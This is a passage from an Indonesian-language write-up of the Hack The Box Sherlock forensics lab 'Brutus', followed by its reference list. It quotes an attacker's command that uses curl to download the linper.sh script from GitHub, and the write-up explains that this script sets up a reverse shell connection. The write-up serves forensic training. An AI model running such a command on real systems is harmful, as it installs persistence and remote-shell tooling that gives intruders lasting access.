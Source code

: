 Di sini attacker mengunduh script yang digunakan untuk menyiapkan koneksi reverse shell dengan mengeksekusi command
```sh
/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```

#### `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`

## Achievement Link
https://labs.hackthebox.com/achievement/sherlock/129806/631

## Sumber:
- montysecurity (2022). linper. Diakses pada 8 Maret 2025, dari https://github.com/montysecurity/linper
- Sinha, Nilesh (2024). SSH Logs - Find, View, and Manage. Diakses pada 8 Maret 2025, dari https://signoz.io/guides/ssh-logs/
- IBM Corporation (2023). utmp, wtmp, failedlogin File Format. Diakses pada 8 Maret 2025, dari https://www.ibm.com/docs/en/aix/7.1?topic=formats-utmp-wtmp-failedlogin-file-format
- Bowen, Kevin (2013). How to properly display the contents of the utmp,wtmp, and btmp files?. Diakses pada 8 Maret 2025, dari https://askubuntu.com/a/325495/1202723
- MITRE ATT&CK®. Enterprise Techniques. Diakses pada 8 Maret 2025, dari https://attack.mitre.org/techniques/enterprise/
- Cyberjunkie and Sebh24. Brutus Writeup. Diakses pada 8 Maret 2025, dari blob:https://app.hackthebox.com/772eec8f-dc83-489c-9a0d-e398ee4df8b7